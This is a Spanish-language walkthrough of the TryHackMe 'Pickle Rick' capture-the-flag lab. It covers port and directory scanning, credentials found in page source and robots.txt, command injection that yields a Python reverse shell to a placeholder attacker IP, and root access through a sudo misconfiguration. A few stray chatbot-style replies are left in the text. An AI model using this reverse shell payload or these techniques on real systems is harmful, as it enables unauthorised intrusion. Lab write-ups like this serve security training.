






# Writeup: Pickle Rick


**Pickle Rick** es un desafío de nivel **Fácil** de la plataforma **TryHackMe**. En este writeup, documento los pasos que seguí para obtener acceso al sistema, escalar privilegios y encontrar los 3 ingredientes.

---

## 📊 Datos Esenciales

- **IP de la Máquina:** `10.10.220.243`
- **Sistema Operativo:** `Linux`
- **Tipo de Máquina:** `[ej. Web, Forense, Reversing]`
- **Banderas:** `[ej. user.txt, root.txt]`
- **Tiempo de Resolución:** `30 min`

---

## 🕵️‍♂️ Fase 1: Reconocimiento y Enumeración

El primer paso fue realizar un escaneo de puertos para identificar los servicios activos en la máquina. Utilicé `nmap` con los siguientes parámetros para un escaneo de versiones y scripts:
```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.220.243 -oN escaneo
```

El escaneo inicial con **Nmap** confirmó que la máquina está en línea y reveló los siguientes puertos abiertos:

* **Puerto 22 (SSH)**
    * **Servicio:** OpenSSH 8.2p1

* **Puerto 80 (HTTP)**
    * **Servicio:** Apache httpd 2.4.41
    * **Título del sitio:** "Rick is sup4r cool"
  
**Análisis del Sitio Web (Puerto 80)**
Al navegar a la dirección IP, se encontró un sitio web con temática de **Rick y Morty**. La página principal mostraba una imagen y un mensaje de ayuda de Rick para Morty.



Al inspeccionar el **código fuente** de la página (presionando `Ctrl + U`), se descubrió un comentario oculto.



Este comentario revelaba una nota para un usuario, proporcionando una pista valiosa:

Con esta información, hemos obtenido un posible nombre de usuario: `RickRu13s`. Este dato será crucial para la siguiente fase de enumeración.

-----

### **Enumeración de Directorios con Gobuster**

Para continuar con el reconocimiento del sitio web, utilicé la herramienta **Gobuster** para buscar directorios y archivos ocultos. Esto nos ayuda a encontrar posibles puntos de entrada que no son visibles a simple vista. El comando ejecutado fue:

```bash
gobuster dir -u http://10.10.220.243/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

El escaneo de Gobuster reveló varios directorios y archivos de interés:

  * **/login.php** (Status: 200)
  * **/assets/** (Status: 301)
  * **/portal.php** (Status: 302)
  * **/robots.txt** (Status: 200)

De estos hallazgos, el archivo **`/robots.txt`** captó mi atención. Al navegar a esa dirección en el navegador, encontré un texto plano que resultó ser una contraseña.

-----

### **Obtención de Credenciales y Acceso**

Con un nombre de usuario y una contraseña en mano, me dirigí a la página de inicio de sesión que habíamos encontrado previamente: **`/login.php`**.

  * **Usuario:** `RickRu13s` (obtenido del código fuente de la página principal)
  * **Contraseña:** `Wubbalubbadubdub` (encontrada en el archivo `robots.txt`)

Al introducir estas credenciales, logré acceder al sistema, lo que marca el final de la fase de enumeración y el inicio de la explotación.

-----

## 💥 Fase 2: Explotación y Acceso Inicial

Una vez con las credenciales, inicié sesión en la página **`/login.php`** y fui redirigido a una nueva sección: **`portal.php`**. Esta página presentaba un "Panel de Comandos" con un campo de texto para ejecutar comandos.



Esta interfaz sugería una vulnerabilidad de **inyección de comandos**. Para confirmar esto y obtener acceso al sistema, decidí ejecutar una **reverse shell**.

  * **Reverse Shell:** Usando una *reverse shell*, un atacante puede hacer que la máquina víctima se conecte a la suya, dándole un control completo sobre el sistema.

Para lograrlo, primero abrí un *listener* en mi máquina atacante con `netcat` en el puerto `4444`.

```bash
nc -lvnp 4444
```

Luego, en el "Panel de Comandos" de la máquina víctima, ejecuté un *payload* de *reverse shell* de Python.

**⚠️ Aclaración:** Es crucial que modifiques el comando de la *reverse shell* para reemplazar `<TU_IP_ATACANTE>` con la dirección IP de tu máquina. En este tipo de ejercicios, a menudo se usa la IP de la interfaz **`tun0`**.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP_ATACANTE>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Después de ejecutar el comando, recibí una conexión en mi *listener* de `netcat`, lo que me dio una *shell* con el usuario **`www-data`**. Ahora, el objetivo es encontrar los tres ingredientes y, finalmente, escalar privilegios para obtener el control total.


---

## 🔎 Fase 3: Post-Explotación y Enumeración del Sistema

Una vez que obtuvimos la *shell* inicial, lo siguiente es estabilizarla. La *shell* de `netcat` es muy básica y carece de funcionalidades importantes como la autocompletación o el historial de comandos. Para mejorar la experiencia, haremos un tratamiento de **TTY** (TeleTypewriter).

Para lograr una **TTY** estable, seguí estos pasos en orden:

  * Ejecuté el siguiente comando para generar una *shell* de bash:

    ```bash
    script /dev/null -c bash
    ```

  * Luego, presioné `Ctrl + Z` para suspender el proceso.

  * A continuación, en mi máquina atacante, ejecuté este comando para manejar las opciones del terminal:

    ```bash
    stty raw -echo; fg
    ```

  * Después de esto, escribí el comando `reset xterm`, aunque no fuera visible en la pantalla.

  * Finalmente, terminé de configurar las variables del entorno para una *shell* completamente funcional:

    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

Con estos pasos, la *shell* quedó completamente interactiva y estable, lo que nos permitió empezar la fase de post-explotación para enumerar el sistema y buscar los tres ingredientes.

No hay problema. Aquí tienes el texto ajustado con el contenido del archivo, listo para que lo uses en tu *write-up*.

-----

### 🧪 Ingrediente 1: El Archivo Secreto

Una vez que la *shell* estuvo estabilizada, el primer paso fue enumerar el sistema de archivos para buscar pistas. Al ejecutar el comando **`ls -la`**, se listaron los archivos en el directorio actual.

```bash
ls -la
```

Entre los archivos, encontramos uno con un nombre bastante sospechoso: **`Sup3rS3cretPickl3Ingred.txt`**. ¡Este parecía ser el primer ingrediente\!

Para ver su contenido, utilicé el comando **`cat`**:

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

El contenido del archivo era **`mr. meeseek hair`**, el cual fue validado exitosamente en la plataforma de **TryHackMe**.
Aquí tienes la versión completa, incluyendo la validación en TryHackMe.

-----

### 🧪 Ingrediente 2: El Directorio de Rick

Para encontrar el segundo ingrediente, el siguiente paso fue buscar en el directorio de usuario de Rick. Me dirigí a la ruta **`/home/rick`** y, al ejecutar un comando `ls`, encontré el archivo que estaba buscando: `second ingredients`.

```bash
cd /home/rick
ls -la
```

Al igual que con el primer ingrediente, usé el comando `cat` para ver el contenido del archivo.

```bash
cat "second ingredients"
```

El contenido del archivo era **`1 jerry tear`**, lo que me proporcionó el segundo ingrediente necesario y fue validado exitosamente en la plataforma de **TryHackme**.

-----

### 🧪 Ingrediente 3: El Directorio de Root

El último paso para encontrar el tercer ingrediente fue escalar privilegios. Utilicé el comando `sudo -l` para verificar qué comandos podía ejecutar el usuario `www-data` como superusuario. La salida del comando mostró una configuración crucial: `(ALL) NOPASSWD: ALL`. Esto significa que el usuario **`www-data`** puede ejecutar **cualquier comando** como **cualquier usuario** sin necesidad de una contraseña.

Aprovechando esta configuración, escalé privilegios al usuario **`root`** con el siguiente comando:

```bash
sudo su
```

Una vez con permisos de root, me dirigí al directorio **`/root`**, donde encontré un archivo llamado **`3rd.txt`**.

```bash
cd /root
ls -la
```

Al igual que con los ingredientes anteriores, usé el comando `cat` para ver su contenido. El contenido del archivo era **`fleeb juice`**, lo que me proporcionó el tercer y último ingrediente necesario para completar la máquina.
Entendido. Buscamos un punto intermedio: profesional, pero con un toque que lo haga interesante. Aquí tienes una versión de la conclusión que mantiene la seriedad pero es más atractiva.

---


### 🎉 Misión Cumplida: Conclusión

Con el último ingrediente asegurado, la misión de Rick está completa y nuestro *write-up* llega a su fin. Este desafío en **TryHackMe** fue una excelente oportunidad para poner en práctica una metodología de *pentesting* integral, demostrando que incluso las máquinas "fáciles" pueden ofrecer valiosas lecciones.

En este recorrido, hemos:
* **Escaneado y Enumerado**: Identificamos los servicios y profundizamos en el sitio web para desenterrar información crítica.
* **Explotado**: Usamos una inyección de comandos para tomar el control inicial del sistema a través de una *reverse shell*.
* **Perforado la Defensa**: Escalamos de un usuario de bajo privilegio a **`root`** aprovechando una configuración incorrecta en `sudo`, una de las vulnerabilidades más comunes en sistemas Linux.

Cada paso nos acercó más a la solución, probando que la persistencia y un enfoque metódico son clave para el éxito en el mundo del *hacking*.

Hasta que nuestras terminales se encuentren de nuevo, la caza continúa.
